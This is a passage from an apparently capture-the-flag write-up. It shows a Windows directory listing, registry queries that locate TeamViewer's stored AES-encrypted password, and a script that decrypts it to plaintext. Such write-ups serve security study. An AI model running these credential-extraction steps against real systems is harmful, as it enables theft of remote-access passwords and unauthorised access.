 02/19/2020  04:11 PM    <DIR>          MSBuild
02/19/2020  04:11 PM    <DIR>          Reference Assemblies
02/20/2020  03:14 AM    <DIR>          TeamViewer
09/15/2018  05:05 AM    <DIR>          Windows Defender
09/15/2018  03:19 AM    <DIR>          Windows Mail
10/29/2018  06:39 PM    <DIR>          Windows Media Player
09/15/2018  03:19 AM    <DIR>          Windows Multimedia Platform
09/15/2018  03:28 AM    <DIR>          windows nt
10/29/2018  06:39 PM    <DIR>          Windows Photo Viewer
09/15/2018  03:19 AM    <DIR>          Windows Portable Devices
09/15/2018  03:19 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              17 Dir(s)  19,394,396,160 bytes free
{% endhighlight %}

"TeamViewer"? This definitely seem worth looking into. Maybe there are saved passwords? I couldn't find any config files containing saved passwords so another location that stores configs is probably the registry.

{% highlight raw %}
c:\windows\system32\inetsrv> reg query HKLM /s /k /f "TeamViewer"
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\TeamViewer 7
HKEY_LOCAL_MACHINE\SOFTWARE\TeamViewer
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\TeamViewerConfiguration
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\TeamViewerSession
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\TeamViewer7
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Services\TeamViewer7
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TeamViewer7
End of search: 7 match(es) found
{% endhighlight %}

`HKEY_LOCAL_MACHINE\SOFTWARE\TeamViewer` seems promising so lets check that out.

{% highlight raw %}
c:\windows\system32\inetsrv> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\TeamViewer" /s
...
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
...
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
...
{% endhighlight %}

Seems like I was right! Using this script from this [link](https://gist.github.com/rishdang/442d355180e5c69e0fcb73fecd05d7e0), I was able to retrieve the decrypted password.

{% highlight bash %}
$ python3 tv.py 

This is a quick and dirty Teamviewer password decrypter basis wonderful post by @whynotsecurity.
Read this blogpost if you haven't already : https://whynotsecurity.com/blog/teamviewer
 
Please check below mentioned registry values and enter its value manually without spaces.
"SecurityPasswordAES" OR "OptionsPasswordAES" OR "SecurityPasswordExported" OR "PermanentPassword"

Enter output from registry without spaces : FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
Decrypted password is :  !R3m0te!
{% endhighlight %}
